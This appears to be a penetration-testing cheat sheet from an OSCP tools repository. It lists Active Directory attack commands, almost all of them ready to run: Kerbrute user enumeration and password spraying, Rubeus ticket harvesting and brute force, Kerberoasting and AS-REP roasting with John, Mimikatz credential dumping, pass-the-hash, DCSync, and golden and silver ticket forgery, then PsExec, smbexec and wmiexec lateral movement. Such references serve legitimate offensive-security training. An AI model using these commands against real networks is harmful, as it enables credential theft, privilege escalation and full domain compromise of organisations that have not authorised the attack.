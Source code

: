  - [Kerbrute](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#kerbrute)
  - [Rubeus](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#rubeus)
  - [Roasting](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#roasting)
  - [Mimikatz](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#mimikatz)
  - [Lateral Movement](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#lateral-movement)

# Kerbrute

```./kerbrute_linux_amd64 userenum -d $DOMAIN -dc $DOMAIN_CONTROLLER usernames.txt```

```./kerbrute_linux_amd64 -domain $DOMAIN -users usernames.txt -passwords passwords.txt -outputfile Output_File```

# Rubeus

```Rubeus.exe harvest /interval:30```

```Rubeus.exe brute /password:$PASSWORD /noticket```

```Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt```

# Roasting

```Rubeus.exe kerberoast /nowrap```

```Rubeus.exe asreproast /nowrap```

```john hash.txt```

```john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt```

```--format=krb5tgs```


# Mimikatz
https://adsecurity.org/?page_id=1821

#### Turn an NTLM into a TGT:

```
mimikatz#> 
privilege::debug
sekurlsa::logonpasswords
```

```sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe```

```
Klist
Net use //dc1
Klist
```

PSEXEC to DC - 
```.\PsExec.exe \\dc01 cmd.exe```

* * * 

#### DCSync Attack:
```lsadump::dcsync /user:Administrator```
```lsadump::dcsync /user:domain\krbtgt```


#### Golden:
Jump to DC to dump krbtgt hash:

```psexec.exe \\dc01 cmd.exe```

```
Privilege::debug
lsadump::lsa /patch
```

Now can create a Golden Ticket:
```
Kerberos::purge
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-
2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
```

Prove we have DA permissions:
```
misc::cmd
psexec.exe \\dc01 cmd.exe
```

#### Silver:

Get domain SID  - ```Whoami /user```

```
kerberos::list
mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587- 2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```

#### MAINTENANCE
```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::list
```

#### Invoke Mimikatz

Invoke Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'

# Lateral Movement
```PsExec.exe -accepteula \\$HOSTNAME cmd```

```psexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```smbexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```wmiexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

